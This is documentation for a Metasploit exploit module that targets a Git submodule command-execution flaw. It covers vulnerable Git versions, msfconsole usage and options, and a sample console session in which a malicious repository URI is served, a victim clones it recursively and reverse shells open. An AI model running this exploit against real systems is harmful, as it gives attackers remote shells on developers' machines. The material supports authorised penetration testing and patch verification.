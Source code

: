 ## Vulnerable Application

  Git can be installed on a variety of operating systems, however
  newer versions may contain the patch for this vulnerability.

  On OSX it can be installed with the XCode command line tools:
  ```xcode-select --install```
  
  On Linux it can be installed with apt:
  ```sudo apt-get update && sudo apt-get install git```

  You can check the version with ```git --version```.
  The fix is included in the following version:
    2.7.6, 2.8.6, 2.9.5, 2.10.4, 2.11.3, 2.12.4, 2.13.5, 2.14.1

## Verification Steps

  Example steps in this format:

  1. Install the application
  1. Start msfconsole
  1. Do: ```use exploit/multi/http/git_submodule_command_exec```
  1. Do: ```set SRVHOST [local host]```
  1. Do: ```set LHOST [local host]```
  1. Do: ```exploit```
  1. Clone the malicious Git URI and its submodules
  1. You should get a shell

## Options

  **GIT_URI**

  This is the URI the git repository will be hosted from (defaults to random).

  **GIT_SUBMODULE**

  This is the URI of the submodule within the git repository (defaults to random).
  The url of this submodule, when cloned, will execute the payload.

## Scenarios

  Example usage against a macOS Sierra x64 bit target running git version 2.10.1

```
msf > use exploit/multi/http/git_submodule_command_exec
msf exploit(git_submodule_command_exec) > set SRVHOST 192.168.0.1
SRVHOST => 192.168.0.1
msf exploit(git_submodule_command_exec) > set LHOST 192.168.0.1
LHOST => 192.168.0.1
msf exploit(git_submodule_command_exec) > exploit
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.0.1:4444
msf exploit(git_submodule_command_exec) > [*] Using URL: http://192.168.0.1:8080/D29MF1UC
[*] Server started.
[*] Malicious Git URI is http://192.168.0.1:8080/ldnwrixuqq.git
***
Victim executes: git clone http://192.168.0.1:8080/ldnwrixuqq.git --recurse-submodules
***
[*] Command shell session 1 opened (192.168.0.1:4444 -> 192.168.0.1:55151) at 2017-08-29 16:54:56 +0800
[*] Command shell session 2 opened (192.168.0.1:4444 -> 192.168.0.1:55152) at 2017-08-29 16:54:56 +0800
```
